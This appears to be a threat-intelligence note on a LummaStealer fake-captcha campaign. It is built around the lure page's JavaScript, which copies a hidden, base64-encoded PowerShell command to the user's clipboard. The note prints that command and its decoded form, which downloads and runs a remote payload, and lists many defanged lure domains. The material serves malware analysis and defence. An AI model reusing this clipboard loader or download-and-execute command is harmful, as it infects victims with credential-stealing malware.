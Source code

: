 # LummaStealer

fake captcha  
context: https://x.com/banthisguy9349/status/1866393258789933389  
initial_scan: [https://urlscan.io/result/8c4c6640-44b9-455c-8650-427b7430beaf](https://urlscan.io/result/8c4c6640-44b9-455c-8650-427b7430beaf)

TLP: Green 🟢

UPDATE: Observing high correlations to PEAKLIGHT campaign, adding supplemental context as reference section

## sample_analysis

malicious_url:  hxxps[://]pub-7a0525921ff54f1193db83d7303c6ee8[.]r2[.]dev/google-verify-12-imp[.]html  

scan:  [https://urlscan.io/result/8fde7092-8ec6-49e0-9dfe-94ebbc222726/dom/](https://urlscan.io/result/8fde7092-8ec6-49e0-9dfe-94ebbc222726/dom/)
```js
function verify() {
        const textToCopy = `PoweRshEll -w hiDDen "[Text[.]Encoding]::UTF8[.]GetString([Convert][:][:]FromBase64String('aWV4IChpd3IgJ2h0dHBzOi8vcHViLTdhMDUyNTkyMWZmNTRmMTE5M2RiODNkNzMwM2M2ZWU4LnIyLmRldi9mQW1ibVZOSC50eHQnIC1Vc2VCYXNpY1BhcnNpbmcpLkNvbnRlbnQ=')) | iex"`;
```

decoded string goes to: 
```
iex (iwr 'hxxps[://]pub-7a0525921ff54f1193db83d7303c6ee8[.]r2[.]dev/fAmbmVNH[.]txt' -UseBasicParsing).Content
```

interaction:   
- https://app.any.run/tasks/8ac1d794-d7ad-4f34-93d3-72f6ccaca750


## Domains

- hxxps[://]check-your-humanity[.]b-cdn[.]net/capt-v2[.]html
- hxxps[://]sos-at-vie-1[.]exo[.]io/bucketrack/dir62/final/ver-check-box-tick[.]html
- hxxps[://]spark-captcha[.]netlify[.]app/
- hxxps[://]recaptcha-checking-v3[.]b-cdn[.]net/verifyme[.]html
- hxxps[://]full-fast-movie-downloader[.]b-cdn[.]net/KH6kjsdNVk4sUIEW4klsw43ep8piJHOl[.]html
- hxxps[://]robot-detection-sys-v2[.]b-cdn[.]net/check-now[.]html
- hxxps[://]sos-at-vie-2[.]exo[.]io/amzbucket/redirect/cache/process/verify-v2[.]html
- hxxps[://]robot-detect-sys-v30[.]b-cdn[.]net/Verify[.]html
- hxxps[://]omkavi15[.]b-cdn[.]net/machinori[.]html
- hxxps[://]omkavi14[.]b-cdn[.]net/machinori[.]html
- hxxps[://]final-chek-v25[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v45[.]b-cdn[.]net/continue/to/finale/cheked/n-page[.]html
- hxxps[://]final-chek-v18[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v37[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v33[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v28[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v34[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]final-chek-v14[.]b-cdn[.]net/continue/to/finale/cheked/f-stage[.]html
- hxxps[://]loadvistufinv24[.]b-cdn[.]net/roboloadzFGTHv2[.]html
- hxxps[://]final-chek-v10[.]b-cdn[.]net/continue/to/finale/cheked/f-stage[.]html
- hxxps[://]final-chek-v31[.]b-cdn[.]net/continue/to/finale/cheked/s-page[.]html
- hxxps[://]captcha-verification-sys-v1[.]b-cdn[.]net/Check[.]html
- hxxps[://]loadingfaslyv8[.]b-cdn[.]net/loadherezv1[.]html
- hxxps[://]omkavi12[.]b-cdn[.]net/lodanzaki[.]html
- hxxps[://]loadingfaslyv16[.]b-cdn[.]net/loadherezv1[.]html
- hxxps[://]omkavi10[.]b-cdn[.]net/ujirola[.]html
- hxxps[://]loadingfaslyv9[.]b-cdn[.]net/loadherezv1[.]html